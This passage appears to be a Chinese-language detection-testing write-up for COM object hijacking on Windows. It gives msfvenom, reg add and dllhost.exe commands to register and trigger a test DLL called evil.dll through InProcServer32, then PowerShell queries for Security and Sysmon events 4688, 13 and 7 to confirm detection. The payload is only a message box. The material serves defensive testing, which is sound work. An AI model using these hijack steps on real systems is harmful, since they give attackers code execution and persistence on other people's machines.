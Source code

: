 ## 测试复现

### 环境准备
- **靶机**：Windows 10或Windows Server 2012+。  
- **权限**：用户权限（触发COM对象）或管理员权限（注册COM对象）。  
- **工具**：`dllhost.exe`（系统自带）、测试用DLL（如`msfvenom`生成）、Sysmon、注册表编辑器。  
- **测试DLL**：生成简单DLL：
  ```bash
  msfvenom -p windows/x64/messagebox TEXT="COM Hijack Test" -f dll -o evil.dll
  ```
- **日志**：启用Windows安全日志和Sysmon。  

### 攻击步骤
1. **创建恶意DLL**  
   - 复制测试DLL到可控路径：
     ```cmd
     copy evil.dll C:\Malicious\evil.dll
     ```

2. **注册恶意COM对象**  
   - 创建CLSID并配置`InProcServer32`：
     ```cmd
     reg add "HKLM\SOFTWARE\Classes\CLSID\{12345678-1234-1234-1234-1234567890AB}\InProcServer32" /ve /d "C:\Malicious\evil.dll" /f
     reg add "HKLM\SOFTWARE\Classes\CLSID\{12345678-1234-1234-1234-1234567890AB}\InProcServer32" /v ThreadingModel /d Apartment /f
     ```

3. **触发COM对象**  
   - 使用`dllhost.exe`加载：
     ```cmd
     dllhost.exe /Processid:{12345678-1234-1234-1234-1234567890AB}
     ```
   - 观察DLL是否执行（如弹出消息框）。

4. **验证结果**  
   - 检查注册表：
     ```powershell
     Get-ItemProperty -Path "HKLM:\SOFTWARE\Classes\CLSID\{12345678-1234-1234-1234-1234567890AB}\InProcServer32"
     ```
   - 检查日志：  
     - **Windows安全日志（事件ID 4688）**：
       ```powershell
       Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4688 -and $_.Message -match "dllhost.exe" }
       ```
     - **Sysmon日志（事件ID 13）**：
       ```powershell
       Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 13 -and $_.Message -match "CLSID" }
       ```
     - **Sysmon日志（事件ID 7）**：
       ```powershell
       Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 7 -and $_.Message -match "evil.dll" }
       ```
